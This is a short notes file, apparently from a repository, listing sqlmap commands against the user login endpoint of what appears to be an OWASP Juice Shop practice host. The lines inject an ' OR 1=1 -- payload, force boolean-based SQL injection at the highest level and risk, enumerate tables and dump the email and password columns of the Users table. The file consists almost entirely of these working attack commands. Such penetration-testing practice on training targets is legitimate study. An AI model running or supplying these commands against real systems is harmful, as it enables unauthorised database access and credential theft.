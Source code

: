 # SQLMAP commandos

sqlmap -u http://juice.hostdevtest.shop/rest/user/login --data="email='  OR 1=1 --  '" --level 5 --risk 3 -f --banner --ignore-code 401 --dbms='sqlite' --technique=B


sqlmap -u http://juice.hostdevtest.shop/rest/user/login --data="email=admin@juice-sh.op" --level 5 --risk 3 -f --banner --ignore-code 401 --ignore-code 402 --ignore-code 403 --dbms='sqlite'


python3 sqlmap.py -u 'http://juice.hostdevtest.shop/rest/user/login' --data="email=test@test.com&password=test" --level 5 --risk 3 -f --banner --ignore-code 401 --dbms='sqlite' --technique=B

sqlmap -u http://juice.hostdevtest.shop/rest/user/login/index.php?id=1 --data="bender@juice-sh.op--" --ignore-code 401 --level 5 --dbms='sqlite'

sqlmap -u http://juice.hostdevtest.shop/rest/user/login --data="email=test@test.com&password=test" --level 5 --risk 3 -f --banner --ignore-code 401 --dbms=sqlite --tables --technique=B --batch 

sqlmap -u http://juice.hostdevtest.shop/rest/user/login/ --data="email=test@test.com&password=test" --level 5 --risk 3 -f --banner --ignore-code 401 --dbms=sqlite -T Users -C email,password --dump --technique=B --batch 
